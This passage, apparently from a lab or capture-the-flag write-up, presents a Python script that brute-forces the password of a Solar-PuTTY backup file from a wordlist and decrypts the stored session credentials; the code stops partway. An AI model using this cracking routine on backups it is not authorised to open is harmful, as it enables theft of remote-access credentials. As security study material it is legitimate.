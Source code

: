 ### Extracting Credentials from a Solar-PuTTY Backup


To retrieve the information stored in the `.dat` file, we need a script that can decrypt the saved credentials. The following Python script accomplishes this.

### Decryption Script

```python
import argparse
import base64
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import json
import sys
from typing import List, Tuple

def decrypt(password: str, ciphertext: str) -> str:
    try:
        # Decode the base64 encoded ciphertext
        array = base64.b64decode(ciphertext)
        salt = array[:24]
        iv = array[24:32]
        encrypted_data = array[32:]

        # Derive the key from the password using PBKDF2
        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA1(),
            length=24,  # Triple DES key size
            salt=salt,
            iterations=1000,
            backend=default_backend()
        )
        key = kdf.derive(password.encode())

        # Create the cipher and decrypt the data
        cipher = Cipher(algorithms.TripleDES(key), modes.CBC(iv), backend=default_backend())
        decryptor = cipher.decryptor()
        
        decrypted_data = decryptor.update(encrypted_data) + decryptor.finalize()

        data = ''.join(chr(c) for c in decrypted_data if chr(c).isascii())
        return data

    except Exception as e:
        print(f'Error: {e}')

def decrypt_wrapper(passwords: List[str], cipher: [str]) -> Tuple[str, str]: # type: ignore
    for i, password in enumerate(passwords):
        password: str  = password.strip()
        decrypted: str = decrypt(password, cipher)
        if decrypted and 'Credentials' in decrypted:
            print(f"✔ Correct password found on line {i}:  {password}")
            return (decrypted, password)
        else:
            print(f"❌ Password={password} is incorrect!")

 
def debug_decrypted_payload(decrypted: str):
    '''
    Useful to debug any unexpected bytes.
    '''
```
